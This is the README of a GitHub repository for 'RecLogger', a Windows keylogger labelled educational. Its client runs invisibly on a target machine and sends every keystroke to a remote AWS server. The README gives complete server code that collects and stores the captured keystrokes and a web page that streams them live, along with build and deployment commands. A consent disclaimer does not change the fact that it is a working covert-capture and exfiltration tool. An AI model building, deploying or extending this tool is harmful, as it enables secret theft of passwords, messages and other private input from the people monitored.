 # RecLogger — Live Keystroke Capture & Broadcast (Educational Use Only)

## DISCLAIMER (READ FIRST)  
RecLogger is an educational and penetration testing tool designed to **capture keystrokes on a Windows system and transmit them securely to a remote server** for live monitoring.  
**This repository is provided for authorized use only.** Use RecLogger only on machines you own or have explicit, informed consent to monitor. Unauthorized use is illegal and unethical. The author is not responsible for misuse or damages.

---

## What RecLogger Does

- **Captures all keystrokes on a target Windows system** in real time using a compiled C++ executable (`demo.exe` or compiled from `main.cpp` with MSYS2/Mingw64).
- The client runs in the **background silently**, monitoring keyboard input and writing logs.
- Logs are POSTed continuously to a **Node.js/Express server** hosted on an AWS EC2 instance.
- The server appends the data to a log file (`server_log.txt`) and uses **WebSocket to broadcast live keystrokes** to connected browsers.
- Users can view the keystrokes in **real time** through a simple web interface (`index.html`).

---

## Technical Architecture

### Client (Windows)
- Written in C++ for efficient, low-level keyboard interception.
- Compiled using MSYS2 MinGW-w64 compiler.
- Runs as an executable that continuously captures keystrokes, outputs them locally, and transmits to the remote server.
- Runs invisibly in the background.

### Server (AWS EC2)
- Node.js Express server handles POST requests containing keystroke data.
- Appends logs with timestamps to a local file for persistence.
- Broadcasts real-time data to connected clients with WebSocket (`ws` module).
- Serves a minimal HTML/JavaScript frontend that shows live keystrokes.

### Frontend
- Simple HTML page connects via WebSocket to server.
- Displays streamed keystroke events live in a user-friendly list.

---

## Repository Structure

```
/server
  ├─ server.js        # Express server + WebSocket backend
  ├─ index.html       # Live keystroke display frontend
  └─ package.json     # Node.js dependencies

/client
  ├─ main.cpp        # C++ source for the keylogger client
  └─ demo.exe        # Precompiled executable for easy testing
```

---

## Prerequisites

### Windows Client (Compilation)

1. Install [MSYS2](https://www.msys2.org/).
2. Open MSYS2 MinGW 64-bit terminal.
3. Update packages and install compiler and curl libraries:

```bash
pacman -Syu
pacman -S mingw-w64-x86_64-toolchain mingw-w64-x86_64-curl
```

### AWS EC2 Server

1. Ubuntu instance recommended.
2. Open necessary TCP ports in EC2 security group (default: 3000).
3. Node.js (v18 recommended) and build-essential installed:

```bash
sudo apt update
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt install -y nodejs build-essential
```

---

## Setup and Installation

### Server Setup on EC2

1. SSH into the EC2 instance:
```bash
ssh -i your_key.pem ubuntu@your-ec2-ip
```

2. Set up project & install Node.js dependencies:
```bash
mkdir rec-logger-server && cd rec-logger-server
npm init -y
npm install express body-parser ws cors
```

3. Create `server.js`:

```js
const express = require('express');
const bodyParser = require('body-parser');
const fs = require('fs');
const http = require('http');
const WebSocket = require('ws');
const cors = require('cors');
const path = require('path');

const app = express();
const server = http.createServer(app);
const wss = new WebSocket.Server({ server });
const PORT = 3000;

app.use(cors());
app.use(bodyParser.urlencoded({ extended: true }));
app.use(bodyParser.json());

wss.on('connection', ws => {
  console.log('WS client connected');
  ws.send('Welcome to RecLogger server');
});

app.post('/upload', (req, res) => {
  const logContent = req.body.log;
  if (!logContent) return res.status(400).send('No log provided');

  wss.clients.forEach(client => {
    if (client.readyState === WebSocket.OPEN) client.send(logContent);
  });

  fs.appendFileSync('server_log.txt', new Date().toISOString() + ' - ' + logContent + '\n');

  res.send('OK');
});

app.get('/', (req, res) => {
  res.sendFile(path.join(__dirname, 'index.html'));
});

server.listen(PORT, () => {
  console.log(`RecLogger server listening on port ${PORT}`);
});
```

4. Create `index.html`:

```html
<!doctype html>
<html>
<head>
  <meta charset="utf-8" />
  <title>RecLogger - Live Keystrokes</title>
</head>
<body>
  <h1>Live Keystrokes from RecLogger</h1>
  <ul id="events"></ul>

  <script>
    const events = document.getElementById('events');
    const ws = new WebSocket('ws://' + location.hostname + ':3000');

    ws.onmessage = e => {
      const li = document.createElement('li');
      li.textContent = e.data;
      events.prepend(li);
    };
    ws.onopen = () => console.log('WebSocket connected');
    ws.onerror = err => console.error('WebSocket error', err);
  </script>
</body>
</html>
```

5. Run server:
```bash
node server.js
```

---

### Client Compilation & Run on Windows

1. Open MSYS2 MinGW 64-bit shell.
2. Navigate to the client directory:
```bash
cd /c/path/to/rec-logger/client
```
3. Edit `main.cpp` to replace placeholder `<EC2_IP>` with your EC2 public IP address.
4. Compile:
```bash
g++ main.cpp -o demo.exe -lcurl
```
5. Run executable:
```bash
./demo.exe
```

---

## Usage

- Start the server on EC2 (`node server.js`).
- Run the client executable on the target Windows machine.
- Open a web browser at `http://<EC2_PUBLIC_IP>:3000/` to watch live keystroke events.
- All keystrokes are saved to the server's `server_log.txt`.

---

## Ethical & Legal Considerations

- Use **only on systems you own or have explicit permission to test**.
- Unauthorized keylogging violates privacy laws and is punishable.
- The author disclaims liability for misuse or illegal deployment.
- Always comply with ethical standards and applicable laws.

---

## Contact & Support

Submit issues or questions through this repository's issue tracker.

---

